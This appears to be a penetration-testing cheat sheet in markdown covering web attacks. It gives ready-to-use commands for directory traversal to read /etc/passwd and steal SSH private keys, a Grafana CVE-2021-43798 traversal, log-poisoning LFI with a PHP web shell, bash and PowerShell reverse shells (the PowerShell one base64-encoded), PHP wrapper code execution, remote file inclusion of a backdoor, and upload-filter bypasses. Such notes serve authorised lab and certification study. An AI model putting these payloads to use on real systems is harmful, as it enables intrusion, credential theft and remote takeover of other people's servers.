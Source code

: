 - phpInfo: Look for `Document_Root`
- Wordpress https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell

# Directory Traversal
- Show `ect/passwd` from php: `http://targeturl.com/index.php?page=../../../../../../../../../etc/passwd
- Grabbing/Saving SSH RSA Private Key of Username: `curl http://targeturl.com/index.php?page=../../../../../../../../../home/username/.ssh/id_rsa | 
    - Logging in with RSA key: `ssh -i dt_key -p 2222 username@targeturl.com
- Windows - Grafana Vulnerability (CVE-2021-43798): `http://ipaddress:3000/public/plugins/mysql/../../../../../../../../Users/Install.txt
- URL encoding: `curl http://ipaddress/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/opt/passwords

# Local File Inclusion (LFI) through Log Poisoning
Write executeable code to Apache's access.log file in /var/log/apache2/
- Add PHP snippet to user agent header of GET request: `<?php echo system($_GET['cmd']); ?>
- Modify GET request with directory traversal to log file & cmd: `GET /index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ls%20-la
- Reverse Shell
    - Start netcat listener: `nc -nvlp 4444`
    - Mod GET cmd to bash reverse shell one-liner = `bash -c "bash -i >& /dev/tcp/local.host.ip.address/4444 0>&1"
        - URL Encoded: `GET index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2Flocal.host.ip.address%2Fport%200%3E%261%22
- Alt to show sensitive file: `GET /index.php?page=../../../../../../../../../xampp/htdocs/secret.txt&cmd=cat

# PHP Wrappers (Bypassing file inclusion filters)
Filter (To read contents)
- No encoding: `curl http://targeturl.com/index.php?page=php://filter/resource=admin.php
- Base64 Encode: `curl http://targeturl.com/index.php?page=php://filter/convert.base64-encode/resource=admin.php
- Alt Base64 encode: `curl http://192.168.244.16/meteor/index.php?page=php://filter/convert.base64-encode/resource='/var/www/html/backup.php'
    - To decode Base64 : echo "BaSE64StR1nG0fL3tt3rsaNDnuMB34s!" | base64 -d
Data (Code Execution)
- `curl http://targetip/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>`

# Remote File Inclusion
- Serve reverse shell script: `python3 -m http.server 80` 
- Curl reverse shell through target: `curl "http://targeturl.com/index.php?page=http://HOST.IP.ADDRESS/simple-backdoor.php&cmd=ls"`
- Run Netcat to capture reverse shell: `nc -nvlp 80
# File Upload with Executables
Bypass .php with .phps .php7 .pHP .PhP
Setup Netcat Listener: `nc -nvlp 4444`
Use Powershell to encode reverse shell one-liner
- `pwsh`
- `$Text = '$client = New-Object System.Net.Sockets.TCPClient("HOST.IP.ADDRESS",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'`
- To Unicode`$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)`
- To base64 `$EncodedText =[Convert]::ToBase64String($Bytes)` (with `$EncodedText` as encoded one-liner)